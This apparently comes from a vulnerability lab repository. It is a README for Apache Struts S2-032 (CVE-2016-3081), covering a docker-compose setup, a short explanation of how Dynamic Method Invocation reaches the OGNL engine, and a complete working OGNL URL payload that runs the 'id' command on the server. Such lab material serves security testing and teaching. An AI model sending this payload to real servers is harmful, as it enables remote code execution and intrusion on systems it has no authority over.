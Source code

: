 # S2-032 Remote Code Execution Vulnerablity（CVE-2016-3081）

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)

References:

 - https://cwiki.apache.org/confluence/display/WW/S2-032
 - http://blog.nsfocus.net/apache-struts-2-remote-code-execution-vulnerability-s2-046-technical-analysis-solution/

## Setup

Execute the following command to start the Struts2 2.3.28：

```
docker-compose up -d
```

After the container is running, visit `http://your-ip:8080` that you can see an example page.

## Exploitation

There’s a feature embedded in Struts 2 that lets the "!" (bang) character invoke a method other than execute. It is called “Dynamic Method Invocation” aka DMI.

A simple way to use DMI is to provide HTTP parameters prefixed with `method:`. For example in the URL it could be `/category.action?method:create=foo`, the parameter value is ignored.

The method name of DMI will be evaluated by OGNL expression engine, which would cause the RCE vulnerability.

Visit following URL to trigger the `id` command:

```
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

![](1.png)

